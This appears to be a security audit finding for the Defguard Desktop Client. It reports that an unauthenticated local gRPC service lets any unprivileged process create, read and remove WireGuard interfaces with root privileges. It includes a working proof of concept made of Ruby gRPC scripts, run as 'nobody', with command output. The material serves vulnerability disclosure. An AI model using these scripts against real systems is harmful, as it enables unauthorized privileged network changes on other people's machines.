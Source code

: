```yaml
---
title: "DG25-27: [desktop_client] Unrestricted access to the local gRPC service"
severity: Medium
cvss_score: 8.7
cvss_string: "CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:L/I:H/A:H"
issue_link: https://github.com/DefGuard/client/issues/551
status: In Progress
---
```


### Technical details

Defguard Desktop Client package installs a privileged system service and
an unprivileged client application.

The Defguard service exposes on local port (54127) the gRPC service for
communication with the Defguard GUI application.

Unprivileged process can request three actions using the gRPC service:

-   create interface (new WireGuard connection)

-   read interface data (info about a remote peer)

-   remove interface (close connection)

Each action is performed with system service privileges (root on Linux
and MacOS, SYSTEM on Windows).

The gRPC service is available to any process that can establish a TCP
connection to local port 127.0.0.1:54127 and does not implement any
access control.

#### Proof of Concept

Example shows how to perform available actions using Ruby environment
and direct gRPC requests.

1.  Debian Linux with Defguard Desktop Client.

```bash
$ uname -a
Linux vboxdeb 6.1.0-32-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.129-1 (2025-03-06) x86_64 GNU/Linux

$ /usr/sbin/defguard-service --version
defguard-client 1.5.0
```

![](/images/pentest/DG25/img10.png)

2.  Install ruby environment with gRPC modules.

```sh
apt install ruby ruby-dev
gem install grpc grpc-tools
```

3. Download source code of the Defguard Desktop Client.

```bash
$ git clone --depth=1 --recurse-submodules -b v1.5.0-alpha1 https://github.com/DefGuard/client.git defguard_client_v1.5.0-alpha1
```

4.  Generate Ruby scripts for the gRPC service.

```bash
$ mkdir /tmp/grpc_ruby
$ grpc_tools_ruby_protoc --proto_path=./defguard_client_v1.5.0-alpha1/src-tauri/proto/client/ --ruby_out=/tmp/grpc_ruby --grpc_out=/tmp/grpc_ruby client.proto
```

5.  Check network configuration.

```bash
# ifconfig -a
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
        inet 10.0.2.15 netmask 255.255.255.0 broadcast 10.0.2.255
        inet6 fe80::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x20<link>
        inet6 fd00::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x0<global>
        inet6 fd00::5415:67df:27a2:ae1f prefixlen 64 scopeid 0x0<global>
        ether 08:00:27:b2:fc:34 txqueuelen 1000 (Ethernet)
        RX packets 68167 bytes 88898744 (84.7 MiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 34105 bytes 2619543 (2.4 MiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
        inet 127.0.0.1 netmask 255.0.0.0
        inet6 ::1 prefixlen 128 scopeid 0x10<host>
        loop txqueuelen 1000 (Local Loopback)
        RX packets 1245 bytes 107392 (104.8 KiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 1245 bytes 107392 (104.8 KiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
```

6.  Create a new WireGuard interface with active connection.

```bash
$ sudo -u nobody id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)

$ sudo -u nobody ruby -I/tmp/grpc_ruby create_interface.rb
```

**create_interface.rb**

```ruby
require 'client_services_pb'
include Client

grpc = DesktopDaemonService::Stub::new('127.0.0.1:54127', :this_channel_is_insecure)

grpc.create_interface CreateInterfaceRequest::new(
  config: InterfaceConfig::new(
    name: 'wg1337',
    prvkey: '9318b207a7817a6d991e74d6300a6f724e6390a32d186e1e0e4f3c370334f563',
    address: '10.22.33.20/24',
    port: 1337,
    peers: [
      Peer::new(
        public_key: 'c2ae6e16af449e74509080c9af723f6d84bf12106fc1ce27a6d21ec278737615',
        preshared_key: '0000000000000000000000000000000000000000000000000000000000000000',
        protocol_version: 1,
        endpoint: '167.172.191.17:51820',
        last_handshake: 0,
        tx_bytes: 0,
        rx_bytes: 0,
        persistent_keepalive_interval: 300,
        allowed_ips: ['10.22.33.0/24']
      )
    ]
  ),
  allowed_ips: ['10.22.33.0/24'],
  dns: '1.1.1.1'
)
```

7.  Check network configuration.

```bash
# ifconfig -a
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
        inet 10.0.2.15 netmask 255.255.255.0 broadcast 10.0.2.255
        inet6 fe80::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x20<link>
        inet6 fd00::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x0<global>
        inet6 fd00::5415:67df:27a2:ae1f prefixlen 64 scopeid 0x0<global>
        ether 08:00:27:b2:fc:34 txqueuelen 1000 (Ethernet)
        RX packets 68303 bytes 88926375 (84.8 MiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 34244 bytes 2647464 (2.5 MiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
        inet 127.0.0.1 netmask 255.0.0.0
        inet6 ::1 prefixlen 128 scopeid 0x10<host>
        loop txqueuelen 1000 (Local Loopback)
        RX packets 1263 bytes 109200 (106.6 KiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 1263 bytes 109200 (106.6 KiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

wg1337: flags=209<UP,POINTOPOINT,RUNNING,NOARP> mtu 1420
        inet 10.22.33.20 netmask 255.255.255.0 destination 10.22.33.20
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00 txqueuelen 1000 (UNSPEC)
        RX packets 2 bytes 124 (124.0 B)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 2 bytes 180 (180.0 B)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
```

8.  Read interface data.

```bash
$ sudo -u nobody ruby -I/tmp/grpc_ruby read_interface_data.rb
```

**Output:**
```
<Client::InterfaceData: listen_port: 1337, peers: [<Client::Peer: public_key: "c2ae6e16af449e74509080c9af723f6d84bf12106fc1ce27a6d21ec278737615", preshared_key: "0000000000000000000000000000000000000000000000000000000000000000", endpoint: "167.172.191.17:51820", last_handshake: 1755875939, tx_bytes: 180, rx_bytes: 252, persistent_keepalive_interval: 300, allowed_ips: ["10.22.33.0/24"]>]>
```

**read_interface_data.rb**

```ruby
require 'client_services_pb'
include Client

grpc = DesktopDaemonService::Stub::new('127.0.0.1:54127', :this_channel_is_insecure)

result = grpc.read_interface_data ReadInterfaceDataRequest::new(
  interface_name: 'wg1337'
)

result.each do |data|
  break if data.peers.empty?
  p data
end
```

9.  Remove interface (close connection).

```bash
$ sudo -u nobody ruby -I/tmp/grpc_ruby remove_interface.rb
```

**remove_interface.rb**

```ruby
require 'client_services_pb'
include Client

grpc = DesktopDaemonService::Stub::new('127.0.0.1:54127', :this_channel_is_insecure)

grpc.remove_interface RemoveInterfaceRequest::new(
  interface_name: 'wg1337',
  endpoint: '10.22.33.20/24'
)
```

10. Check network configuration.

```bash
# ifconfig -a
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
        inet 10.0.2.15 netmask 255.255.255.0 broadcast 10.0.2.255
        inet6 fe80::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x20<link>
        inet6 fd00::a00:27ff:feb2:fc34 prefixlen 64 scopeid 0x0<global>
        inet6 fd00::5415:67df:27a2:ae1f prefixlen 64 scopeid 0x0<global>
        ether 08:00:27:b2:fc:34 txqueuelen 1000 (Ethernet)
        RX packets 68327 bytes 88930655 (84.8 MiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 34261 bytes 2650098 (2.5 MiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
        inet 127.0.0.1 netmask 255.0.0.0
        inet6 ::1 prefixlen 128 scopeid 0x10<host>
        loop txqueuelen 1000 (Local Loopback)
        RX packets 1305 bytes 112781 (110.1 KiB)
        RX errors 0 dropped 0 overruns 0 frame 0
        TX packets 1305 bytes 112781 (110.1 KiB)
        TX errors 0 dropped 0 overruns 0 carrier 0 collisions 0
```
